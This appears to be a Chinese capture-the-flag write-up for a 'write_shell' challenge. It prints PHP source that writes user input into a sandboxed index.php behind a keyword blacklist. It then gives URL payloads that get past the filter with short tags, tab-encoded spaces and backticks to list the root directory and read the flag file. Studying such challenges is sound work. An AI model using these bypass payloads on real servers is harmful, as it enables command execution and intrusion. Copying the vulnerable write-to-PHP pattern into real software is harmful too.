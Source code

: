 ##  write_shell

先读代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
    if(is_array($input)){
        foreach($input as $key=>$output){
            $input[$key] = waf($output);
        }
    }else{
        $input = check($input);
    }
}///

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

挺简单的代码，就是当传参，`action=pwd`,输出目录，`action=upload`，向刚才的目录`index.php`中写入命令，然后对命令进行了过滤。

![image-20220228194530089](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202281945202.png)

目录`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/`

再看看写入部分，屏蔽了 php，可以用短标签<?= ?>解决。空格和花括号被屏蔽，那么空格就用`%09`来代替了。而没有屏蔽反引号，则可以利用这个来执行命令。

所以payload

```
?action=upload&data=<?=`ls%09/`?>
```

访问得到，文件名`flllllll1112222222lag`

payload

```
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

获取flag

![image-20220228201041294](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202282010350.png)